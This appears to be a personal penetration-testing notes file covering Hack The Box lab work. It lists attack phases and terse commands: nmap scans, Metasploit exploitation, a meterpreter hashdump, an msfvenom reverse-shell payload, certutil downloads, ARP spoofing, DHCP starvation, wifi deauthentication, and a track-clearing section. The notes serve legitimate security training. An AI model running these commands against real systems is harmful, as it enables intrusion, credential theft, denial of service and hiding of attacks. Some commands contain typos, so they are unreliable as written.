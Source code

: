 # Phases
1. Recon
2. Scanning 
3. Gaining access
4. Maintaining access
5. Clearing tracks

# chains 
1. get access
   1. searchsploit
2. escalate access
3. upload rat
4. execute rat
5. deploy rat
   1. msfvenom cheat sheet aspx
6. clear tracks

# hack the box
- https://www.hackthebox.eu/home/rules
- https://www.hackthebox.eu/home/htb/access
  - OpenVPN
  - nmap -sC -sV 10.10.10.79
  - nmap --script vuln -oA nmap/vulnscan 10.10.10.79
  - sslyze --heartbleed 10.10.10.79:443
  - gobuster -u http://10.10.10.79 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
  - burp suite community edition
  - 
## Hack examples
- https://www.youtube.com/watch?v=JZN3JhoAdWo
- https://medium.com/bugbountywriteup/valentine-a-hackthebox-writeup-f5b731e35138
1. `Recon`
   1. get $IP of target from hackthebox.eu
2. `Scanning` 
   1. nmap $ip                    # better to use msfc db_nmap
      1. 8080/tcp                 # browse via web
   2. nmap -A -T4 -p- $ip         # ALL scan, OS/ver/script/traceroute detection.
      1.  5min to an hour
   3. nmap -sU -T4 -p1-1000 $ip   # 1000 UDP ports
   4. Leads
      1. smb                      # 139/tcp ntbios-ssnn
      2. ftp                        
      3. web app
   5. google search $lead exploit 
      1. exploit-db.com
      2. rapid7.com
      3. AutoBlue-MS17010 coded example
3. `Gaining access`
   1. msfconsole                  # Rapid7 Metasploit
      1. search $lead           # $keyword
      2. search $exploit-keyword-or-id
      3. use $exploit/aux
      4. info
      5. options
      6. show
      7. set $var $value
      8. exploit or run
   2. nessus??
4. `Maintaining access`
   1. meterpreter               # reverse shell
      1. getuid #windows command
      2. sysinfo
      3. help
      4. getsystem
      5. hashdump # get the SAM, pass hashes?
      6. find user.txt, or root.txt and submit to hackthebox.eu
      7. background
      8. search suggester
   2. msfvenom -p java/jsp_shell_reverse_tcp LHOST=$myip LPORT=$myport -f war > rat.war
      1. msfconsole
         1. use exploit/multi/handler
         2. set payload windows/x64/???
   3. nc -nvlp 1234 #netcat
      1. no tty # https://netsec.ws/?p=337
      2. escalate privlages
         1. sudo -u $user /bin/bash
         2. http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
5. `Clearing tracks`
   1. CCleaner
   2. Auditpol
6. Capture the flag (CTF)
   1. tag web with contents of user.txt


# Leads
1. ftp
   1. get/put $file
2. smb                                          # found smb service
   1. smbclient -L \\\\$ip\\      
      1. try to crawl folders
3.  web app
   2. default apps
      1. try default credential lists
         1. google app names and default credentials
         2. try in burp suite
   3. dirbuster&  # OWASP DirBuster
      1. /usr/share/wordlists/dirbuster/dir??    #list based
         1. iis7 ext "asm,asmx,asp,aspx"
4. linux
   1. quick http
      1. python -m SimpleHTPServer 80
5. windows privliaged escalation
   1. wget for windws
      1. certutil -urlcache -f $url
   2. windows expliot suggester
   3. https://www.fuzzysecurity.com/tutorials/16.html
      1. rasta-mouse / sherlock or watson

# whois
geoip-bin
geoiplookup $ip

# arp poisoning
- ip forwarding on
- keeps telling target that the your host is the gw. 
echo 1 > /proc/sys/net/ipv4/ip_forward
ip route # get ip of router =$routerip
arpspoof -i eth0 -t $targetip -$routerip 
#use wireshark ip.addr == $targetip

# dhcp starvation = DoS
net-dhcp-leases default
dhcpstarv -i eth0
yersinia 

# wireless hacking
https://www.aircrack-ng.org/
wifi Monitoring mode? 
airmon-ng start $wifiadapter # from ifconfig
airodump-ng $newinterfacename
airodump-ng -c $ch --bssid $MAC -w capture $newinterfacename
airreplay-ng --deauth 0 -a -$MACap -c $MAC

# notes
smtp, expn